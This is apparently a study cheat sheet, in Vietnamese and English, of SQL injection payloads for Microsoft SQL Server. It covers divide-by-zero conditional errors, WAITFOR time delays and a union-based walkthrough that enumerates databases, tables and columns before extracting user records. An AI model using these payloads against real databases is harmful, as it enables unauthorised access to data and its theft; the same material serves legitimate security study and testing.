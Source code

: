 # Tổng quan

- SQL Server hoạt động tốt với .NET
- SQL server sử dụng một storage engine được phát triển bởi Microsoft
- Cho phép hủy quẻy giữa chừng
- SQL Server chủ yếu hỗ trợ Windows, với các tùy chọn triển khai đám mây cho Linux và macOS thông qua Docker.

# String concatenation

```
'Kit'+'Kat'
```

# Substring

```
SUBSTRING('carrot', 4, 2)
```

# Comments

```sql
/*comment*/
--comment
```

# Database version

```sql
SELECT @@version
```

# Database name

```sql
SELECT DB_NAME()
```

# Database contents

```sql
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME'
```

# Conditional errors

```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
```

# Time delays

```sql
WAITFOR DELAY '0:0:10'
```

# Conditional time delays

```
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10
```

# MSSQL Union Based

```sql
-- extract databases names
$ SELECT name FROM master..sysdatabases -- `..` dùng để chỉ đối tượng trong 1 cơ sở dữ liệu cụ thể
[*] Injection
[*] msdb
[*] tempdb

-- extract tables from Injection database
$ SELECT name FROM Injection..sysobjects WHERE xtype = 'U' -- `U` đại diện cho bảng user
[*] Profiles
[*] Roles
[*] Users
 
-- extract columns for the table Users
$ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
[*] UserId
[*] UserName
-- tìm id của bảng `Users` trong `sysobjects`, sau đó tìm tất cả cột có trong bảng `Users` từ `syscolumns`
-- Finally extract the data
$ SELECT  UserId, UserName from Users
```

# Current User

```sql
SELECT user_name(); 
SELECT system_user; 
SELECT user;
```

# List users

```sql
SELECT name FROM master..syslogins
```


